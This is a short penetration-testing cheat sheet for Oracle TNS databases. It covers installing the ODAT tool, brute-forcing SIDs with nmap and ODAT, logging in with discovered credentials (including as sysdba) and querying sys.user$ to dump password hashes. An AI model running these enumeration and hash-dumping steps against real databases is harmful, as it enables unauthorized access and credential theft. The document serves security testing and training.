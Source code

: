 `Oracle Transparent Network Substrate (TNS)` server is a communication protocol that facilitates communication between Oracle databases and applications over networks.

## Set up
```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

- Test to see if the installation is successful
```bash
./odat.py -h
```

## ENUMERATION
- nmap
```bash
sudo nmap -sV -p1521 $IP --open --script oracle-sid-brute
``` 

- odat
```bash
sudo ./odat.py all -s $IP 
```

## Log in with sqlplus
- Once credentials are found we try to log in
```bash
sqlplus $USER/$PASSWORD@$IP/$ORACLE_SID
```

Note: if we get error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, run:
```bash
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

- Login with user as the System Database Admin (`sysdba`)
```bash
sqlplus $USER/$PASSWORD@$IP/$ORACLE_SID as sysdba
```

## Interact with Oracle RDBMS database
```bash
SQL> select table_name from all_tables;
SQL> select * from user_role_privs;
SQL> select * from user_role_privs;
SQL> select name, password from sys.user$;
```